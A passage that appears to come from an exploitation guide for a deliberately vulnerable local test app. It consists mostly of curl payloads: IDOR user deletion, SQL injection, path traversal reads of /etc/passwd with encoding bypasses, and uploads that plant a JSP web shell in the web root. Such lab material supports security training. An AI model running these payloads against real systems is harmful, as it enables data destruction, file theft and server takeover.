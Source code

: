 #### 3.4 User Deletion IDOR
**Location:** `/api/users/delete/{userId}`
**Exploitation:**
```bash
# Delete any user by ID
curl -X DELETE "http://localhost:3020/api/users/delete/2"

# Delete by username (with SQL injection)
curl -X DELETE "http://localhost:3020/api/users/delete/victim' OR '1'='1"
```

### 4. Path Traversal Vulnerabilities

#### 4.1 File Read Path Traversal
**Location:** `/api/files/read/{filename}`
**Exploitation:**
```bash
# Basic path traversal
curl "http://localhost:3020/api/files/read/../../../../../../etc/passwd"

# URL encoded bypass
curl "http://localhost:3020/api/files/read/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"

# Double URL encoding
curl "http://localhost:3020/api/files/read/%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"
```

#### 4.2 Directory Listing Path Traversal
**Location:** `/api/files/list?path=`
**Exploitation:**
```bash
# List system directories
curl "http://localhost:3020/api/files/list?path=../../../../../../etc/"

# List home directories
curl "http://localhost:3020/api/files/list?path=../../../../../../home/"
```

#### 4.3 File Upload Path Traversal
**Location:** `/api/files/upload`
**Exploitation:**
```bash
# Upload to arbitrary location
curl -X POST "http://localhost:3020/api/files/upload" \
  -F "file=@malicious.jsp" \
  -F "directory=../../../../../../var/www/html"

# Upload with traversal in filename
curl -X POST "http://localhost:3020/api/files/upload" \
  -F "file=@shell.jsp;filename=../../../shell.jsp"
```
